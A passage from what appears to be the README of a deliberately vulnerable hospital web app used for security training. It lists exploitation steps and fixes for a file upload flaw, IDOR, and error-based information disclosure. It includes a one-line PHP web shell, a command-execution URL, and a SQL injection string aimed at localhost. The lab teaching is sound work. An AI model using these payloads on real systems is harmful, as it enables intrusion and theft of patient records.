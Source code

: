 **🛠 Fix**: Use **escapeshellarg()** or **parameterized queries** to filter input.

---

### **3️⃣ File Upload Vulnerability**  
💥 **Vulnerability**: The **file upload function** (`order_medication.php`) does not restrict file types, allowing **PHP scripts to be uploaded and executed**.  

💡 **Exploitation Steps**:  
1. Use the **attached file (`malicious.php`)**, or create your own PHP web shell:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
2. Save it as `shell.php` (if creating your own).
3. Navigate to `http://localhost/hackme-hospital/order_medication.php`.
4. Upload `malicious.php` (or `shell.php`).
5. Access the shell via:
   ```
   http://localhost/hackme-hospital/uploads/malicious.php?cmd=whoami
   ```

**🛠 Fix**: Restrict file uploads to **safe extensions (e.g., .jpg, .png, .pdf)** and disable PHP execution in the uploads folder.

---

### **4️⃣ Insecure Direct Object Reference (IDOR)**
💥 **Vulnerability**: **Medical records are accessed via predictable URLs**, allowing unauthorized access.  
💡 **Exploitation Steps**:
1. Log in as a **regular user**.
2. Navigate to your medical records:
   ```
   http://localhost/hackme-hospital/view_records.php?patient_id=1
   ```
3. Change the `patient_id` in the URL:
   ```
   http://localhost/hackme-hospital/view_records.php?patient_id=2
   ```
4. You will now see **another patient's records**.

**🛠 Fix**: Implement **access control checks** to ensure users can only access their own records.

---

### **5️⃣ Information Disclosure**
💥 **Vulnerability**: Improper error handling reveals **database queries, file paths, and sensitive server details**.  
💡 **Exploitation Steps**:
1. Enter an **invalid SQL query** in the login field:
   ```
   ' OR 1=1#
   ```
2. If the server displays an error message, it may **reveal the database structure**.
